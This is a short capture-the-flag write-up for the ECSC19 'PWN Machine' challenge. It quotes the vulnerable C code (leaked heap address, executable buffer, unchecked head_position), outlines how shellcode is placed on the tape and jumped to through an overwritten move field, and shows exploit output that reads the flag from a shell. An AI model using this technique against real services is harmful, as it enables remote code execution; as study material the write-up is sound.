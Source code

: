 # PWN Machine (shellcode)
I was really happy not having to reverse engineer the sample code given in the challenge. I've solved this task quite quickly and so I believe there is a cleaner way to pwn it. Moreover as this challenge does not provide any new tricks it's going to be writeup only for myself I will keep it super short.

## Notes
As there was no binary provided I've assumed that there are all standard protections enabled – ASLR, cookies, PIE. Also by connecting to the challenge and looking at leaked `buffer` address we know that the binary was compiled as a 32 bit application:

```console
$ nc ecsc19.hack.cert.pl 25012
[D] Allocated memory at 0xf7424008
Input (𝑄, 𝚺, 𝐹):

```

## Vulnerability
There are few things which caught my eye.
1) The address of the buffer is being leaked as `DEBUG` variable is set.

```c
#define DEBUG 1

[...]

char *buffer = (char*)malloc(buffer_size);
if (buffer < 0){
    puts("[E] Error, couldn't allocate memory, contact admin");
}
#ifdef DEBUG
else {
    printf("[D] Allocated memory at %p\n", buffer);
}
#endif
```

2) The memory for tape and moves is set to executable:

```c
int m = mprotect((void*)((int)buffer & ~(4096-1)), buffer_size, PROT_READ | PROT_WRITE | PROT_EXEC);
```

3) There is no limitation on `head_position` and the following statement

```c
tape[*head_position] = moves[i].to_tape;
```

looks quite powerful.

4) The `direction` field. Really there is an easier way to implement such functionality

5) moves and tape is placed next to each other:

```c
tape_char *tape = (tape_char*)buffer;
move *moves = (move*)(buffer+MAX_TAPE_SIZE*sizeof(tape_char));
```

## Exploitation
So combining all 5 above points, we can:
1) place shellcode at the begining of the tape,
2) move head_position to point to move[0],
3) using `tape[head_position] = moves[i].to_tape` overwrite `direction` field of move[0] with address of tape,
4) make sure move[0] gets called and so we jump to our shellcode.

The hardest part is manipulating the `moves`/`tape` to build exploit.

## POC
[Full exploit](exp.py)

```console
$ python3 exp.py remote
[x] Opening connection to ecsc19.hack.cert.pl on port 25012
[x] Opening connection to ecsc19.hack.cert.pl on port 25012: Trying 195.164.49.185
[+] Opening connection to ecsc19.hack.cert.pl on port 25012: Done
[*] tape_addr: 0xf7400008
[*] moves_addr: 0xf7402718
[*] Switching to interactive mode

$ id
uid=99999 gid=99999 groups=99999
$ cat /app/flag.txt
ecsc19{Church-TuringThesisAppliesToPWNsRight?}
```
